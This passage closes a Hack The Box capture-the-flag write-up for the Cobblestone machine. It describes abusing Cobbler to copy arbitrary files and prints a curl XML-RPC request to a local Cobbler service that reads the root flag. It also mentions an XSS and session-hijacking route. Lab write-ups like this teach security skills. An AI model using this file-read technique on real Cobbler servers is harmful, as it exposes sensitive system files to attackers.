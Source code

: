 This script is gonna abuse Cobbler features to copy arbitrary files from server to web accessable location.

> *This script was supported by [2ubZ3r0](https://app.hackthebox.com/users/682632) so big shoutout to him.*

After running the script, we gonna manually XML-RPC call to get the file.

```bash
└─$ curl -X POST http://127.0.0.1:25151 -H "Content-Type: text/xml" -d '<?xml version="1.0"?><methodCall><methodName>get_template_file_for_system</methodName><params><param><value><string>pwnsys</string></value></param><param><value><string>/leak</string></value></param></params></methodCall>'
<?xml version='1.0'?>
<methodResponse>
<params>
<param>
<value><string>bf043ee1dff63a36dd8daef225b1f343
</string></value>
</param>
</params>
</methodResponse>
```

There we go, we got the content of the `root.txt` flag.

> *So for this machine, there is also an unintended way to get user and root from xss and then admin session hijacking, so I gonna update this part if got time before the machine patch it.*

![result](/assets/img/cobblestone-htb-season8/result.png)

And that is all for season 8, 13 week with great and interesting machines that so much to learn and enjoy. Really appreciate the effort of the author and also thanks to community and friends for supporting on these journey.

*See you in the season 9. :3*
